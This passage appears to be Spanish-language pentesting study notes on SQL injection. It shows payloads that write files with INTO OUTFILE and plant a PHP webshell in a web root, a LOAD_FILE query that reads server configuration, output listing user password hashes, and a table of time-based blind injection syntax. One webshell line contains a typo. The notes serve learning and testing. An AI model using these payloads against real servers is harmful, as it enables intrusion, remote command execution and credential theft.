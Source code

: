 ```bash
cat /tmp/credentials 

#output
1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

También es posible crear cadenas directamente en los archivos con `SELECT`, lo que nos permite escribir archivos arbitrarios en el servidor de back-end.

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

```bash
cat /tmp/test.txt 

#output
this is a test

ls -la /tmp/test.txt 

#output - lo creo el usuario mysql
-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

entonces podemos escribir una webshell para obtener acceso al servidor:

```sql
' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

' union select "",'<?php system($_GET_['cmd']); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

![[Pasted image 20221227162447.png]]

>[!note]
>Sabemos que el directorio raíz web es /var/www/html/ . Sin embargo, esto no siempre será así. Dado que podemos leer los archivos del sistema, podríamos enumerar el  archivo /etc/apache2/apache2.conf  para encontrar el directorio raíz web para alojar potencialmente nuestro shell web con una consulta como: `' UNION SELECT NULL,LOAD_FILE("/etc/apache2/ apache2.conf"),NULL,NULL,NULL-- -` .

## SQLi TIME BASED

Segun el DBMS asi es como podemos testear:

|DATABASE|SINTAX|
|:-----:|:-----:|
|Oracle |	dbms_pipe.receive_message(('a'),10)|
|Microsoft |	WAITFOR DELAY '0:0:10'|
|PostgreSQL |	pg_sleep(10)|
|MySQL |	SELECT sleep(10)|
